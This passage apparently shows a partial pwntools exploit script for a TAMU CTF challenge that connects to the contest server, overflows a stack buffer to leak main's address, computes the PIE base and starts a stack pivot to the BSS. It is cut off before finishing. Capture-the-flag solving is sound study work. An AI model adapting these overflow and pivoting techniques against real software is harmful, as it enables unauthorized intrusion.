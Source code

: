 ```python
    elif cond == 3:
        r = remote("tamuctf.com", 443, ssl=True, sni="tamuctf_debug-2")

    return r


def main():
    r = conn(1)

    # Offset Calculation
    sBuffer = 0x7fffffffd710
    sRip =    0x7fffffffd768
    offsetRip = sRip - sBuffer # 0x58

    r.sendlineafter(b" Exit\n", b"1")

    payload = b"A"*offsetRip + b"\xdd"
    r.sendafter(b" 69 characters)", payload) # Now we are back into main+43 (call menu)

    # With this we can leak the address of main
    r.recvuntil(b"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA")
    output = r.recvline()[:-1]
    leakMain = u64(output.ljust(8, b"\x00"))
    log.info(f"leakMain: {hex(leakMain)}")

    sbaseCode = 0x555555554000
    sLeakMain = 0x5555555553dd
    offsetBaseCode = sbaseCode - sLeakMain
    e.address = leakMain + offsetBaseCode
    log.info(f"baseCode: {hex(e.address)}")

    #-----------------------------------------------------------------------------------------------------

    def convert_case(byte):
        targetAddress = bytearray(byte)  # Convert to mutable bytearray
        for i, byte in enumerate(targetAddress):
            if 97 <= byte <= 122:
                targetAddress[i] = byte - 32  # Convert to uppercase
            elif 65 <= byte <= 90:
                targetAddress[i] = byte + 32  # Convert to lowercase

        return bytes(targetAddress)  # Convert back to immutable bytes if needed


    log.info(f"bss: {hex(e.bss())}")
    log.info(f"got puts: {hex(e.got['puts'])}")
    log.info(f"plt puts: {hex(e.plt['puts'])}")

    # stack pivoting
    payload = b"A"*(offsetRip - 8)
    payload += convert_case(p64(e.bss() + 0x808))
    payload += convert_case(p64(e.symbols["menu"] + 4))

    r.sendlineafter(b" Exit\n", b"1")
    r.sendafter(b" 69 characters)", payload)

    #-----------------------------------------------------------------------------------------------------

    r.sendlineafter(b" Exit\n", b"1")

```